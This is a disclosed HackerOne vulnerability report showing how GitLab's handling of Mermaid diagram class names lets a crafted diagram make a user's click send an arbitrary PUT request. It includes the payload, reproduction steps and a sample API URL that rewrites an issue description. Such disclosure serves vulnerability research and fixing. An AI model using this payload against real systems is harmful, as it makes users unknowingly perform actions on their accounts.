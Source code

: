 # Send arbitrary PUT requests when user clicks on a link

## Report Details
- **Report ID**: 824689
- **URL**: https://hackerone.com/reports/824689
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-03-19T14:09:58.998Z
- **Disclosed**: 2020-07-27T08:44:34.335Z

## Reporter
- **Username**: yvvdwf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Dear teams,

### Summary

Mermaid allows users to set class name of a block. This ability becomes vulnerable in Gitlab issues because of [issue.js#L90](https://gitlab.com/gitlab-org/gitlab/-/blob/master/app/assets/javascripts/issue.js#L90):

```javascript
    return $(document).on(
      'click',
      '.js-issuable-actions a.btn-close, .js-issuable-actions a.btn-reopen',
      e => {
...
       const $button = $(e.currentTarget);
...
        const url = $button.attr('href');
        return axios
          .put(url)
          .then(({ data }) => {
...
```

### Steps to reproduce

 1. Create any issue
 2. Enter the following payload as the description of the issue:

```
```mermaid
graph TD;
 A[Click to send a PUT request];
 class A js-issuable-actions;
 class A btn-close;
 click A "./put-destination" "click to PUT"
```

After saving the issue, if you click on the block `Click to send a PUT request`, a `PUT` request will be sent to `./put-destination`

### Impact

Since attacker can control `./put-destination`, he can theoretically can perform any PUT requests on behalf of the current user.
For example, attacker can use the following url to update the description of issue #2:

`/api/v4/projects/16210710/issues/2?description=a`

### Examples

An example is available here: https://gitlab.com/yvvdwf/xss/-/issues/1 (it is private, pls let me know if you cannot access it)

### Output of checks

This bug happens on GitLab.com

## Impact

When received click of user, attacker may perform arbitrary PUT requests of the behalf of the user

## Attachments
No attachments
